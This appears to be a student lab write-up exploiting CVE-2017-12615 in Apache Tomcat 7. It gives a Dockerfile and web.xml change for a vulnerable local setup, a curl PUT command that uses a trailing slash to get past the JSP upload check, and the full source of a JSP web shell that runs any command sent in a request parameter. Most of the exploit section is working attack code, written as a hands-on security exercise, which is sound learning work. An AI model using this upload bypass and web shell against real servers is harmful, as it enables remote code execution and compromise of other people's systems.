 # CVE-2017-12615

## PS
- Bug Overview: When running Apache Tomcat 7.0.0 to 7.0.79 on Windows with HTTP PUTs enabled (e.g. via setting the read-only initialisation parameter of the Default to false) it was possible to upload a JSP file to the server via a specially crafted request. This JSP could then be requested and any code it contained would be executed by the server. That could lead to remote code execution on the server.
- Aim: Write a working exploit for this CVE by which you can achieve RCE on local VM/Docker.
- Install vulnerable service in a VM/Docker and ensure to meet the condition so that you can exploit it.
- Run your exploit on the vulnerable service and make a video of it.
- Write a brief report about this bug including your exploit code and link for exploit and Video proof.


## Description
As a security measure, Apache Tomcat doesn't let you upload JSP files via the PUT method. But due to insufficient checks, an attacker can upload JSP files on 7.0.0 to 7.0.79 Tomcat servers that have PUT method enabled and as a result get remote code execution.


## Environment
We replicated the environment for this vulnerability in a docker container using the following Dockerfile on Windows 10 host. This will use tomcat 7.0.79, we replace the web.xml file with our modified file (setting readonly parameter to false) and start the service on port 8080.
```
FROM tomcat:7.0.79-jre8
COPY web.xml /usr/local/tomcat/conf/
EXPOSE 8080
```

We added the following code in web.xml to enable the PUT method.
```xml
<init-param>
    <param-name>readonly</param-name>
    <param-value>false</param-value>
</init-param>
```


## Exploit
We can bypass the file extension check by appending a '/' character after the file's extension, this way it is fooled into thinking that the file just uploaded is not a JSP file. We used the following curl command to upload a JSP file on the server.

```bash
curl -X PUT http://localhost:8080/reverse_shell.jsp/ -d @- < reverse_shell.jsp
```


Ther `reverse_shell.jsp` file receives the command to be executed using HTML, so we can directly goto `http://localhost:8080/reverse_shell.jsp` and execute commands on the server :)


```js
<%@ page import="java.util.*,java.io.*"%>
<%%>
<HTML>
    <BODY>
        <H3>JSP SHELL</H3>
        <FORM METHOD="GET" NAME="myform" ACTION="">
            <INPUT TYPE="text" NAME="cmd">
            <INPUT TYPE="submit" VALUE="Execute">
        </FORM>
        <PRE>
            <%
                if (request.getParameter("cmd") != null) {
                    out.println("Command: " +
                    request.getParameter("cmd") + "<BR>");
                    Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
                    OutputStream os = p.getOutputStream();
                    InputStream in = p.getInputStream();
                    DataInputStream dis = new DataInputStream(in);
                    String disr = dis.readLine();
                    while ( disr != null ) {
                        out.println(disr);
                        disr = dis.readLine();
                    }
                }
            %>
        </PRE>
    </BODY>
</HTML>
```

Finally we have our reverse shell working and we are able to execute arbitrary shell commands from browser.

![](rev_shell.PNG)
